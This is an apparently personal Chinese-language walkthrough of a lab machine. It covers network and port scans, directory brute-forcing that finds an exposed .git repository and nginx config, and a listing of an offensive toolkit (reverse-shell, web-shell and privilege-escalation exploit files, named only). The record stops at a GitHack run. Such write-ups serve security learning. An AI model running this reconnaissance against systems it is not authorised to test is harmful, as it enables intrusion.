## 网段扫描
```
root@LingMj:~/xxoo/jarjar# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:d1:27:55, IPv4: 192.168.137.190
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.137.1	3e:21:9c:12:bd:a3	(Unknown: locally administered)
192.168.137.104	3e:21:9c:12:bd:a3	(Unknown: locally administered)
192.168.137.135	a0:78:17:62:e5:0a	Apple, Inc.

6 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.066 seconds (123.91 hosts/sec). 3 responded
```

## 端口扫描

```
root@LingMj:~/xxoo/jarjar# nmap -p- -sV -sC 192.168.137.104     
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-25 04:18 EDT
Nmap scan report for noport.mshome.net (192.168.137.104)
Host is up (0.013s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-git: 
|   192.168.137.104:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: add some file 
MAC Address: 3E:21:9C:12:BD:A3 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.81 seconds
```

## 获取webshell
  
  

>有认证有git
>

  

>看看有啥信息吧
>

  

```
root@LingMj:~/tools/GitHack-master/dist/192.168.137.104# cat ctf.conf     
server {
        listen 80;
        root /var/www/html;
        index index.php;

        location ~ .*\.(css|js|png|jpg)$ {
            proxy_cache cache;
            proxy_cache_valid 200 3m;
            proxy_cache_use_stale error timeout updating;
            expires 3m;
            add_header Cache-Control "public";
	    add_header X-Cache $upstream_cache_status;
            proxy_pass http://127.0.0.1:8080;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
            proxy_set_header X-Forwarded-Proto $scheme;
        }
        location / {
            proxy_pass http://127.0.0.1:8080;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
            proxy_set_header X-Forwarded-Proto $scheme;
        }

        access_log /var/log/nginx/access.log;
        error_log /var/log/nginx/error.log;

}
```

>不是有啥信息,这里端口8080目前没有可能需要利用什么方法去弄一下
>

  

>而且这个文件如果可以改的话直接root了之前做过类似的
>

  

>恢复一下
>

```
                                                                                                                                                                                                        
root@LingMj:~/xxoo/jarjar# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:d1:27:55, IPv4: 192.168.137.190
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.137.1	3e:21:9c:12:bd:a3	(Unknown: locally administered)
192.168.137.104	3e:21:9c:12:bd:a3	(Unknown: locally administered)
192.168.137.135	a0:78:17:62:e5:0a	Apple, Inc.

6 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.066 seconds (123.91 hosts/sec). 3 responded
                                                                                                                                                                                                        
root@LingMj:~/xxoo/jarjar# nmap -p- -sV -sC 192.168.137.104     
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-25 04:18 EDT
Nmap scan report for noport.mshome.net (192.168.137.104)
Host is up (0.013s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-git: 
|   192.168.137.104:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: add some file 
MAC Address: 3E:21:9C:12:BD:A3 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.81 seconds
                                                                                                                                                                                                        
root@LingMj:~/xxoo/jarjar# dirsearch -u http://192.168.137.104        
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /root/xxoo/jarjar/reports/http_192.168.137.104/_25-04-25_04-23-20.txt

Target: http://192.168.137.104/

[04:23:20] Starting: 
[04:23:20] 403 -  548B  - /.config/gcloud/access_tokens.db                  
[04:23:20] 403 -  548B  - /.config/gcloud/credentials.db                    
[04:23:20] 403 -  548B  - /.db                                              
[04:23:21] 200 -   73B  - /.git/description                                 
[04:23:21] 200 -   14B  - /.git/COMMIT_EDITMSG                              
[04:23:21] 200 -   23B  - /.git/HEAD                                        
[04:23:21] 200 -   92B  - /.git/config                                      
[04:23:21] 301 -  315B  - /.git  ->  http://192.168.137.104/.git/
[04:23:21] 200 -  309B  - /.git/branches/                                   
[04:23:21] 200 -  240B  - /.git/info/exclude                                
[04:23:21] 200 -  728B  - /.git/                                            
[04:23:21] 200 -  441B  - /.git/index                                       
[04:23:21] 200 -  371B  - /.git/logs/                                       
[04:23:21] 200 -  999B  - /.git/hooks/
[04:23:21] 200 -  160B  - /.git/logs/HEAD
[04:23:21] 301 -  325B  - /.git/logs/refs  ->  http://192.168.137.104/.git/logs/refs/
[04:23:21] 200 -  160B  - /.git/logs/refs/heads/master
[04:23:21] 301 -  331B  - /.git/logs/refs/heads  ->  http://192.168.137.104/.git/logs/refs/heads/
[04:23:21] 200 -  341B  - /.git/info/                                       
[04:23:21] 200 -   41B  - /.git/refs/heads/master                           
[04:23:21] 301 -  326B  - /.git/refs/heads  ->  http://192.168.137.104/.git/refs/heads/
[04:23:21] 200 -  375B  - /.git/refs/                                       
[04:23:21] 200 -  635B  - /.git/objects/                                    
[04:23:21] 301 -  325B  - /.git/refs/tags  ->  http://192.168.137.104/.git/refs/tags/
[04:23:21] 403 -  278B  - /.ht_wsr.txt                                      
[04:23:21] 403 -  278B  - /.htaccess.orig                                   
[04:23:21] 403 -  278B  - /.htaccess.sample
[04:23:21] 403 -  278B  - /.htaccess_extra                                  
[04:23:21] 403 -  278B  - /.htaccess.bak1                                   
[04:23:21] 403 -  278B  - /.htaccess_sc
[04:23:21] 403 -  278B  - /.htaccessOLD2
[04:23:21] 403 -  278B  - /.htaccess_orig
[04:23:21] 403 -  278B  - /.htaccess.save
[04:23:21] 403 -  278B  - /.htaccessOLD
[04:23:21] 403 -  278B  - /.htaccessBAK                                     
[04:23:21] 403 -  278B  - /.htm                                             
[04:23:21] 403 -  278B  - /.html
[04:23:21] 403 -  278B  - /.htpasswd_test                                   
[04:23:21] 403 -  278B  - /.htpasswds                                       
[04:23:21] 403 -  278B  - /.httr-oauth                                      
[04:23:22] 403 -  548B  - /.svn/wc.db                                       
[04:23:30] 404 -  275B  - /cgi-bin/                                         
[04:23:30] 404 -  275B  - /cgi-bin/a1stats/a1disp.cgi                       
[04:23:30] 404 -  275B  - /cgi-bin/htimage.exe?2,2                          
[04:23:30] 404 -  275B  - /cgi-bin/login
[04:23:30] 404 -  275B  - /cgi-bin/imagemap.exe?2,2
[04:23:30] 404 -  275B  - /cgi-bin/login.cgi
[04:23:30] 404 -  275B  - /cgi-bin/mt7/mt-xmlrpc.cgi
[04:23:30] 404 -  275B  - /cgi-bin/htmlscript
[04:23:30] 404 -  275B  - /cgi-bin/login.php
[04:23:30] 404 -  275B  - /cgi-bin/awstats.pl
[04:23:30] 404 -  275B  - /cgi-bin/index.html
[04:23:30] 404 -  275B  - /cgi-bin/test.cgi
[04:23:30] 404 -  275B  - /cgi-bin/mt-xmlrpc.cgi
[04:23:30] 404 -  275B  - /cgi-bin/ViewLog.asp                              
[04:23:30] 200 -    1KB - /cgi-bin/test-cgi                                 
[04:23:30] 404 -  275B  - /cgi-bin/mt.cgi
[04:23:30] 404 -  275B  - /cgi-bin/mt7/mt.cgi
[04:23:30] 404 -  275B  - /cgi-bin/printenv.pl
[04:23:30] 404 -  275B  - /cgi-bin/awstats/
[04:23:30] 200 -  820B  - /cgi-bin/printenv
[04:23:30] 404 -  275B  - /cgi-bin/php.ini                                  
[04:23:30] 404 -  275B  - /cgi-bin/mt/mt-xmlrpc.cgi
[04:23:30] 404 -  275B  - /cgi-bin/mt/mt.cgi
[04:23:32] 403 -  548B  - /devdata.db                                       
[04:23:33] 403 -  548B  - /ehthumbs.db                                      
[04:23:37] 200 -  301B  - /log                                              
[04:23:37] 404 -  275B  - /log/access.log                                   
[04:23:37] 404 -  275B  - /log/access_log
[04:23:37] 404 -  275B  - /log/                                             
[04:23:37] 404 -  275B  - /log/authorizenet.log                             
[04:23:37] 404 -  275B  - /log/error.log
[04:23:37] 404 -  275B  - /log/development.log
[04:23:37] 404 -  275B  - /log/error_log
[04:23:37] 404 -  275B  - /log/librepag.log
[04:23:37] 404 -  275B  - /log/errors.log
[04:23:37] 404 -  275B  - /log/exception.log
[04:23:37] 404 -  275B  - /log/log.txt
[04:23:37] 404 -  275B  - /log/log.log
[04:23:37] 404 -  275B  - /log/old
[04:23:37] 404 -  275B  - /log/payment.log
[04:23:37] 404 -  275B  - /log/payment_authorizenet.log
[04:23:37] 404 -  275B  - /log/server.log
[04:23:37] 404 -  275B  - /log/payment_paypal_express.log
[04:23:37] 404 -  275B  - /log/test.log                                     
[04:23:37] 404 -  275B  - /log/production.log
[04:23:37] 404 -  275B  - /log/www-error.log
[04:23:39] 403 -  548B  - /mysqlitedb.db                                    
[04:23:40] 200 -    1KB - /nginx.conf                                       
[04:23:43] 403 -  548B  - /pwd.db                                           
[04:23:45] 403 -  548B  - /spwd.db                                          
[04:23:47] 200 -    0B  - /test.php                                         
[04:23:47] 403 -  548B  - /Thumbs.db                                        
[04:23:47] 403 -  548B  - /thumbs.db                                        
[04:23:48] 403 -  548B  - /users.db                                         
                                                                             
Task Completed
                                                                                                                                                                                                        
root@LingMj:~/xxoo/jarjar# dirsearch -u http://192.168.137.104/log
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /root/xxoo/jarjar/reports/http_192.168.137.104/_log_25-04-25_04-24-11.txt

Target: http://192.168.137.104/

[04:24:11] Starting: log/
[04:24:12] 401 -   30B  - /log/%2e%2e//google.com                           
[04:24:12] 403 -  548B  - /log/.config/gcloud/credentials.db                
[04:24:12] 403 -  548B  - /log/.config/gcloud/access_tokens.db
[04:24:12] 403 -  548B  - /log/.db                                          
[04:24:13] 403 -  548B  - /log/.svn/wc.db                                   
[04:24:23] 403 -  548B  - /log/devdata.db                                   
[04:24:24] 403 -  548B  - /log/ehthumbs.db                                  
[04:24:29] 403 -  548B  - /log/mysqlitedb.db                                
[04:24:32] 403 -  548B  - /log/pwd.db                                       
[04:24:35] 403 -  548B  - /log/spwd.db                                      
[04:24:36] 403 -  548B  - /log/thumbs.db                                    
[04:24:36] 403 -  548B  - /log/Thumbs.db                                    
[04:24:37] 403 -  548B  - /log/users.db                                     
                                                                             
Task Completed
                                                                                                                                                                                                        
root@LingMj:~/xxoo/jarjar# cd            
                                                                                                                                                                                                        
root@LingMj:~#  cd tools 
                                                                                                                                                                                                        
root@LingMj:~/tools# ls -al
总计 389364
drwxr-xr-x 16 root root      4096  4月13日 02:00 .
drwx------ 18 root root      4096  4月25日 04:15 ..
-rw-r--r--  1 root root         0 12月12日 06:01 a
-rw-r--r--  1 root root      1138  1月14日 23:04 a.conf
-rw-r--r--  1 root root       565  2月28日 23:09 authorized_keys
-rw-r--r--  1 root root         0  3月 9日 23:54 a.zip
-rwxr-xr-x  1 root root    234480 2024年 5月26日 bkcrack
-rwxr-xr-x  1 root root     77544 2024年 9月27日 bruteforce-salted-openssl
-rwxr-xr-x  1 root root   1131168 2024年 9月18日 busybox
drwxr-xr-x  3 root root      4096  3月 8日 19:36 bypass-403-main
-rwxr-xr-x  1 root root    124806  1月 4日 00:14 bypass-403-main.zip
drwxr-xr-x  2 root root      4096  1月 1日 22:27 Chankro-master
-rwxr-xr-x  1 root root     19923  1月 1日 22:21 Chankro-master.zip
-rwx--x--x  1 root root   8945816 2024年 9月29日 chisel
-rw-r--r--  1 root root        41  1月 2日 23:40 config.sh
-rw-r--r--  1 root root       200  4月 4日 08:31 cookie.txt
-rw-r--r--  1 root root     39266  4月11日 20:59 CVE-2021-3156-main.zip
drwxr-xr-x  4 root root      4096  2月 9日 09:17 CVE-2021-4034-main
-rw-rw-r--  1 root root      6457  2月 3日 01:23 CVE-2021-4034-main.zip
-rwxr-xr-x  1 root root  25427968 2024年 3月16日 CVE-2024-23897
drwxr-xr-x  3 root root      4096  3月 8日 00:18 CVE-2024-39943-Poc
-rw-r--r--  1 root root        19  3月 4日 03:16 eval.php
-rw-r--r--  1 root root        50  2月 2日 23:23 filter
drwxr-xr-x  5 root root      4096  1月12日 08:17 firefox_decrypt
-rwxr-xr-x  1 root root   8585724  2月24日 23:49 fscan
-rwxr-xr-x  1 root root      4948 2024年10月15日 gen_avi.py
drwxr-xr-x  5 root root      4096  1月25日 10:41 GitHack-master
-rw-rw-r--  1 root root     41975  1月25日 00:05 GitHack-master.zip
-rw-r--r--  1 root root     66066  1月23日 01:25 hase
-rwxr-xr--  1 root root       397 11月 8日 09:05 hashdump.py
-rw-r--r--  1 root root        73  4月12日 07:01 .htaccess
-rw-r--r--  1 root root 154275981  4月12日 08:01 hydra.restore
-rwxrwxr-x  1 root root   2897952  2月20日 03:48 imgconceal
-rw-r--r--  1 root root     10701  4月 1日 19:40 index.html
-rw-r--r--  1 root root      5496  4月 1日 19:55 irc_bot.py
drwxr-xr-x  4 root root      4096  2月 6日 07:33 jwt_tool
-rw-r--r--  1 root root     14949 2024年 9月16日 keepass_dump.py
drwxr-xr-x  6 root root      4096  1月 4日 21:39 KeePwn-main
-rwxr-xr-x  1 root root     84823  1月 4日 21:32 KeePwn-main.zip
-rw-r--r--  1 root root     89641 2024年 9月15日 les.sh
-rw-r--r--  1 root root      1079  2月13日 08:35 LICENSE.md
-rw-r--r--  1 root root    332111  2月15日 07:25 linpeas.sh
-rw-rw-r--  1 root root       158  2月 1日 06:50 log
-rw-r--r--  1 root root     52711  2月21日 08:45 lover.txt
-rwxr-xr-x  1 root root   3251610  1月18日 23:06 lxd-alpine-builder-master.zip
-rw-rw-r--  1 root root   4395883 12月 8日 21:35 lxd-privesc-exploit.sh
-rw-r--r--  1 root root        50  1月14日 21:09 m
-rwxr-xr-x  1 root root     73592 2024年 9月27日 md5collgen
-rwxr-xr-x  1 root root      6139  3月 7日 20:53 msfinstall
-rw-r--r--  1 root root        42  4月12日 20:37 myshell.php
-rwxr-xr-x  1 root root   5298768  3月 7日 22:46 mysql
-rw-r--r--  1 root root       130  2月21日 09:24 nodejs_debug
-rw-rw-r--  1 root root  31739189  2月14日 02:44 nuclei_3.3.9_linux_amd64.zip
-rw-r--r--  1 root root       126  3月15日 06:02 num
-rw-r--r--  1 root root     16319  1月23日 01:11 pass.txt
-rw-r--r--  1 root root       148  2月 6日 02:33 passwd
-rw-r--r--  1 root root       164  4月12日 08:48 pe.c
-rwxr-xr-x  1 root root     67952  4月12日 08:48 pe.so
-rw-r--r--  1 root root      8765 2024年 9月18日 php-filter-chain.py
drwxr-xr-x  4 root root      4096  4月 8日 23:44 phuip-fpizdam
-rwxr-xr-x  1 root root   3104768 2024年 9月15日 pspy64
-rw-r--r--  1 root root     25717  2月 3日 01:28 PwnKit.zip
drwxr-xr-x  3 root root      4096  3月 4日 21:45 python-deserialization-attack-payload-generator
-rw-r--r--  1 root root       328 2024年10月 5日 random_number_alpha.sh
-rw-r--r--  1 root root     25556  2月13日 08:35 README_CN.md
-rw-r--r--  1 root root     25903  2月13日 08:35 README_ES.md
-rw-r--r--  1 root root     27463  2月13日 08:35 README_ID.md
-rw-r--r--  1 root root     12526  2月13日 08:35 README_JP.md
-rw-r--r--  1 root root     28504  2月13日 08:35 README_KR.md
-rw-r--r--  1 root root     58873  2月13日 08:35 README.md
-rw-r--r--  1 root root     25656  2月13日 08:35 README_PT-BR.md
drwxr-xr-x  5 root root      4096  1月24日 03:12 RedisModules-ExecuteCommand
-rw-r--r--  1 root root        27  3月 4日 03:30 reve.php
-rwxr-xr-x  1 root root      5496  1月13日 06:19 reverse.php4
-rw-r--r--  1 root root        50  2月21日 07:04 reverse.sh
-rw-r--r--  1 root root       387  1月13日 06:17 rev.js
-rw-r--r--  1 root root 139921507  3月 3日 03:17 rockyou
-rw-r--r--  1 root root      1846  3月25日 00:09 script.js
-rw-r--r--  1 root root     12288  3月24日 23:55 .script.js.swp
-rw-r--r--  1 root root         0  2月 7日 22:40 service.wsdl
-rw-r--r--  1 root root      1102  2月26日 04:34 shell1.war
-rw-r--r--  1 root root      5262 12月 9日 05:24 shell.jar
-rw-r--r--  1 root root     11695  3月 4日 03:30 shell.php
-rw-r--r--  1 root root        64  2月28日 21:47 shell.sh
-rw-r--r--  1 root root     13037  2月26日 04:26 shell.war
-rw-r--r--  1 root root     16632  2月10日 07:53 shop
drwxr-xr-x  3 root root      4096 12月14日 09:48 SNMP-Brute
-rwxr-xr-x  1 root root    379672 10月26日 07:35 socat
-rw-r--r--  1 root root       297  1月 5日 03:38 solve.txt
drwxr-xr-x  3 root root      4096  1月17日 06:36 spose
-rwxr-xr-x  1 root root      1626  1月 3日 08:07 sucrack.py
drwxr-xr-x  4 root root      4096  1月 3日 07:53 suForce
-rw-r--r--  1 root root     16712  2月 6日 03:29 suid
-rw-r--r--  1 root root    161891 12月14日 03:18 techyou.txt
-rwxr-xr--  1 root root      1050 11月 7日 21:05 test_sh.py
-rw-r--r--  1 root root        98  4月13日 02:00 tmp
-rw-r--r--  1 root root      1402  1月19日 22:01 web.aspx
-rwxr-xr-x  1 root root   7245864 11月 8日 08:37 websocat
-rwxr-xr-x  1 root root      5496  2月 2日 11:24 wp-load.php
-rw-r--r--  1 root root      1070  3月22日 22:52 x_1.0_all.deb
-rw-r--r--  1 root root       141  1月14日 08:26 xxoo.conf
-rw-r--r--  1 root root      2409  3月11日 19:35 yaml-payload.jar
                                                                                                                                                                                                        
root@LingMj:~/tools# cd GitHack-master 
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master# ls -al
总计 68
drwxr-xr-x  5 root root  4096  1月25日 10:41 .
drwxr-xr-x 16 root root  4096  4月13日 02:00 ..
drwxr-xr-x  2 root root  4096 2020年 2月25日 data
drwxr-xr-x  9 root root  4096  4月23日 03:02 dist
-rwxr-xr-x  1 root root   809 2020年 2月25日 GitHack.py
-rw-r--r--  1 root root    45 2020年 2月25日 .gitignore
drwxr-xr-x  3 root root  4096  1月25日 10:41 lib
-rw-r--r--  1 root root 35141 2020年 2月25日 LICENSE
-rw-r--r--  1 root root   805 2020年 2月25日 README.md
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master# cd dist                
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist# ls -al
总计 36
drwxr-xr-x 9 root root 4096  4月23日 03:02 .
drwxr-xr-x 5 root root 4096  1月25日 10:41 ..
drwxr-xr-x 3 root root 4096  4月23日 03:03 192.168.137.218
drwxr-xr-x 3 root root 4096  2月 4日 08:13 192.168.26.204
drwxr-xr-x 6 root root 4096  1月25日 10:44 192.168.56.101
drwxr-xr-x 9 root root 4096  1月26日 07:10 192.168.56.118
drwxr-xr-x 9 root root 4096  1月26日 09:38 192.168.56.119
drwxr-xr-x 3 root root 4096  2月 4日 08:51 192.168.56.134
drwxr-xr-x 8 root root 4096  4月23日 03:02 .git
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist# rm -rf 192.*         
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist# ls -al
总计 12
drwxr-xr-x 3 root root 4096  4月25日 04:27 .
drwxr-xr-x 5 root root 4096  1月25日 10:41 ..
drwxr-xr-x 8 root root 4096  4月23日 03:02 .git
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master/dist# cd ..  
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master# ls -al
总计 68
drwxr-xr-x  5 root root  4096  1月25日 10:41 .
drwxr-xr-x 16 root root  4096  4月13日 02:00 ..
drwxr-xr-x  2 root root  4096 2020年 2月25日 data
drwxr-xr-x  3 root root  4096  4月25日 04:27 dist
-rwxr-xr-x  1 root root   809 2020年 2月25日 GitHack.py
-rw-r--r--  1 root root    45 2020年 2月25日 .gitignore
drwxr-xr-x  3 root root  4096  1月25日 10:41 lib
-rw-r--r--  1 root root 35141 2020年 2月25日 LICENSE
-rw-r--r--  1 root root   805 2020年 2月25日 README.md
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master# python3 GitHack.py 192.168.137.104/.git
Traceback (most recent call last):
  File "/root/tools/GitHack-master/GitHack.py", line 11, in <module>
    from lib.common import banner
  File "/root/tools/GitHack-master/lib/common.py", line 84
    except IOError, ex:
           ^^^^^^^^^^^
SyntaxError: multiple exception types must be parenthesized
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master# python3 GitHack.py http://192.168.137.104/.git
Traceback (most recent call last):
  File "/root/tools/GitHack-master/GitHack.py", line 11, in <module>
    from lib.common import banner
  File "/root/tools/GitHack-master/lib/common.py", line 84
    except IOError, ex:
           ^^^^^^^^^^^
SyntaxError: multiple exception types must be parenthesized
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master# python3 GitHack.py --help                     
Traceback (most recent call last):
  File "/root/tools/GitHack-master/GitHack.py", line 11, in <module>
    from lib.common import banner
  File "/root/tools/GitHack-master/lib/common.py", line 84
    except IOError, ex:
           ^^^^^^^^^^^
SyntaxError: multiple exception types must be parenthesized
                                                                                                                                                                                                        
root@LingMj:~/tools/GitHack-master# python2 GitHack.py http://192.168.137.104/.git

  ____ _ _   _   _            _
 / ___(_) |_| | | | __ _  ___| | __
| |  _| | __| |_| |/ _` |/ __| |/ /
| |_| | | |_|  _  | (_| | (__|   <
